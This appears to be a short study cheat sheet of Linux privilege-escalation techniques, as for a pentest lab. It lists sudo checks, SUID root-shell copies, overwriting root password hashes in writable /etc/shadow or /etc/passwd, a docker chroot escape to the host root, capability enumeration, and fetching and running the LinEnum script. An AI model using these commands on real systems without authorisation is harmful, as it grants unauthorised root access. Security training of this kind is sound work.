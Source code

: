 					Sudo 
Can you su without a password?		       su root
are you already a sudo user?			   sudo su -
what can we run with sudo?			  sudo -l

				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
ls -l /etc/shadow					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
ls -l /etc/passwd					is /etc/passwd writeable?
- openssl passwd password			      Generate password hash
- place the new password hash between the first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->


				Docker
-- get image name using 'docker ps'
-- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

				Capabilities
## Identifying Capabilities
`getcap -r / 2>/dev/null`

				LinEnum
-- wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
-- ./LinEnum.sh -t -r report.txt

				Misc
-- https://gtfobins.github.io/